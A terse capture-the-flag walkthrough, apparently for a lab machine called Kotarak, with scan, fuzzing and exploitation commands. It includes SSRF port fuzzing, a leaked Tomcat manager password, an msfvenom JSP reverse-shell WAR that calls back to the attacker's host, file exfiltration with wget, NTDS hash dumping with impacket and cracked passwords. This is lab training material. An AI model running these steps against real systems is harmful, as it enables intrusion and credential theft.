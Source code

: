 # kotarak

## scanning
```bash
furious 10.10.10.55
nmap -sC -sV -p 22,8009,8080,60000 -n -Pn 10.10.10.55 -oN targeted
```
![201025.png](201025.png)

## 60000

wfuzz -c -z range, 1-655535 --hl 2 '10.10.10.55:60000/url.php?path=127.0.0.1:FUZZ'
![222826.png](222826.png)

view-source:http://10.10.10.55:60000/url.php?path=127.0.0.1:888?doc=backup
![223034.png](223034.png)
```html
<user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```

# 8080 
we enter here and use the credentials
http://10.10.10.55:8080/manager/html

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.14 lport=8888 -f war > gato.war
```
we enter here to get a reverse shell
http://10.10.10.55:8080/gato/

```bash
cd /home/tomcat/to_archive/pentest_data
unzip ntdsxtract.zip
python3 -m http.server 1234
```
![231505.png](231505.png)

on our machine
```bash
wget http://10.10.10.55:1234/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
wget http://10.10.10.55:1234/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin

impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```
![234433.png](234433.png)

we use crackstation
![231135.png](231135.png)
```
f16tomcat!
Password123!
```
su atanas
password: f16tomcat!
